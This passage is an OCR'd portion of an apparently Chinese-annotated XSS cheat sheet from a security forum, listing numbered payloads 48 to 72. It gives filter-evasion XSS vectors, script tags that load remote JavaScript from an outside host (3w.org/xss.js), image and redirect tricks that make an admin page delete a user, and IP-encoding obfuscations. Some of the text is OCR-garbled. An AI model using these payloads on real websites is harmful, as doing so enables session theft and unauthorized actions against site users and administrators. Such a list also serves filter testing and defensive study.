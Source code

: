 ```text
8&13&12288&65279)
<DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>
(48)DIV expression
<DIV STYLE=”width: expression_r(alert(‘XSS’));”>
(49)STYLE属性分拆表达
<IMG STYLE=”xss:expression_r(alert(‘XSS’))”>
(50)匿名STYLE(组成:开角号和一个字母开头)
<XSS STYLE=”xss:expression_r(alert(‘XSS’))”>
(51)STYLE background-image
<STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><A
CLASS=XSS></A>
(52)IMG STYLE方式
exppression(alert(“XSS”))’>
(53)STYLE background
<STYLE><STYLE
type=”text/css”>BODY{background:url(“javascript:alert(‘XSS’)”)}</STYLE>
(54)BASE
<BASE HREF=”javascript:alert(‘XSS’);//”>
(55)EMBED标签,你可以嵌入FLASH,其中包涵XSS
<EMBED SRC=”http://3w.org/XSS/xss.swf” ></EMBED>
(56)在flash中使用ActionScrpt可以混进你XSS的代码
a=”get”;
b=”URL(\”";
c=”javascript:”;
d=”alert(‘XSS’);\”)”;
eval_r(a+b+c+d);
(57)XML namespace.HTC文件必须和你的XSS载体在一台服务器上
<HTML xmlns:xss>
<?import namespace=”xss” implementation=”http://3w.org/XSS/xss.htc”>
<xss:xss>XSS</xss:xss>
</HTML>
(58)如果过滤了你的JS你可以在图片里添加JS代码来利用
<SCRIPT SRC=””></SCRIPT>
(59)IMG嵌入式命令,可执行任意命令
<IMG SRC=”http://www.XXX.com/a.php?a=b”>
(60)IMG嵌入式命令(a.jpg在同服务器)
Redirect 302 /a.jpg http://www.XXX.com/admin.asp&deleteuser
(61)绕符号过滤
<SCRIPT a=”>” SRC=”http://3w.org/xss.js”></SCRIPT>
(62)
<SCRIPT =”>” SRC=”http://3w.org/xss.js”></SCRIPT>
(63)
<SCRIPT a=”>” ” SRC=”http://3w.org/xss.js”></SCRIPT>
(64)
<SCRIPT “a=’>’” SRC=”http://3w.org/xss.js”></SCRIPT>
(65)
<SCRIPT a=`>` SRC=”http://3w.org/xss.js”></SCRIPT>
(66)12-7-1 T00LS - Powered by Discuz! Board
https://www.t00ls.net/viewthread.php?action=printable&tid=15267 4/6
<SCRIPT a=”>’>” SRC=”http://3w.org/xss.js”></SCRIPT>
(67)
<SCRIPT>document.write(“<SCRI”);</SCRIPT>PT SRC=”http://3w.org/xss.js”>
</SCRIPT>
(68)URL绕行
<A HREF=”http://127.0.0.1/”>XSS</A>
(69)URL编码
<A HREF=”http://3w.org”>XSS</A>
(70)IP十进制
<A HREF=”http://3232235521″>XSS</A>
(71)IP十六进制
<A HREF=”http://0xc0.0xa8.0×00.0×01″>XSS</A>
(72)IP八进制
<A HREF=”http://0300.0250.0000.0001″>XSS</A>
```
